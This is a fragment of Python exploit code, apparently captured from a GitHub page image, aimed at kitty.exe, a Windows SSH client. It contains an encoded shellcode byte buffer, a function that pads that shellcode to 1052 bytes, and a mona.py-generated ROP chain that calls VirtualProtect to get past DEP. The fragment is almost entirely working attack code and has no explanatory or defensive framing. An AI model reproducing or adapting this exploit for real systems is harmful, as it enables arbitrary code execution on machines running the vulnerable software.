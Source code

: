 ```python
buf += b"\x5e\x11\xa3\xbc\x16\x2d\xcc\x2b\x5e\x11\xa3\xbc"
buf += b"\xd5\x28\xcf\x35\x5e\x11\xa3\x43\xc9\xb1\x9a\x99"
buf += b"\xc0\x3b\x21\xbc\xc2\xa9\x90\xd4\x28\x27\xa3\x83"
buf += b"\xf6\xf5\x02\xbe\xb3\x9d\xa2\x36\x5c\xa2\x33\x90"
buf += b"\x85\xf8\xf5\xd5\x2c\x80\xd0\xc4\x67\xc4\xb0\x80"
buf += b"\xf1\x92\xa2\x82\xe7\x92\xba\x82\xf7\x97\xa2\xbc"
buf += b"\xd8\x08\xcb\x52\x5e\x11\x7d\x34\xef\x92\xb2\x2b"
buf += b"\x91\xac\xfc\x53\xbc\xa4\x0b\x01\x1a\x34\x41\x76"
buf += b"\xf7\xac\x52\x41\x1c\x59\x0b\x01\x9d\xc2\x88\xde"
buf += b"\x21\x3f\x14\xa1\xa4\x7f\xb3\xc7\xd3\xab\x9e\xd4"
buf += b"\xf2\x3b\x21"

def shellcode():
	sc = b''
	sc += b'\xBB\x44\x24\x44\x44' # mov    ebx,0x44442444
	sc += b'\xB8\x44\x44\x44\x44' # mov    eax,0x44444444
	sc += b'\x29\xD8'             # sub    eax,ebx
	sc += b'\x29\xC4'             # sub    esp,eax
	sc += buf
	sc += b'\x90' * (1052-len(sc))
	assert len(sc) == 1052 
	return sc

def create_rop_chain():

	# rop chain generated with mona.py - www.corelan.be
	rop_gadgets = [
	#[---INFO:gadgets_to_set_esi:---]
	0x004c5832,  # POP EAX # ADD ESP,14 # POP EBX # POP ESI # RETN [kitty.exe]
	0x006424a4,  # ptr to &VirtualProtect() [IAT kitty.exe]
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x00484e07,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [kitty.exe]
	0x00473cf6,  # XCHG EAX,ESI # RETN [kitty.exe]
	#[---INFO:gadgets_to_set_ebp:---]
	0x00429953,  # POP EBP # RETN [kitty.exe]
	0x005405b0, # push esp; ret 0 [kitty.exe]
	#[---INFO:gadgets_to_set_ebx:---]
	0x0049d9f9,  # POP EBX # RETN [kitty.exe]
	0x00000201,  # 0x00000201-> ebx
	#[---INFO:gadgets_to_set_edx:---]
	0x00430dce,  # POP EDX # RETN [kitty.exe]
	0x00000040,  # 0x00000040-> edx
	#[---INFO:gadgets_to_set_ecx:---]
	0x005ac58c,  # POP ECX # RETN [kitty.exe]
	0x004d81d9,  # &Writable location [kitty.exe]
	#[---INFO:gadgets_to_set_edi:---]
	0x004fa404,  # POP EDI # RETN [kitty.exe]
	0x005a2001,  # RETN (ROP NOP) [kitty.exe]
	#[---INFO:gadgets_to_set_eax:---]
	0x004cd011,  # POP EAX # POP EBX # RETN [kitty.exe]
	0x90909090,  # nop
	0x41414141,  # Filler (compensate)
	#[---INFO:pushad:---]
	0x005dfbac,  # PUSHAD # RETN [kitty.exe]
	]
	return b''.join(struct.pack('<I', _) for _ in rop_gadgets)

```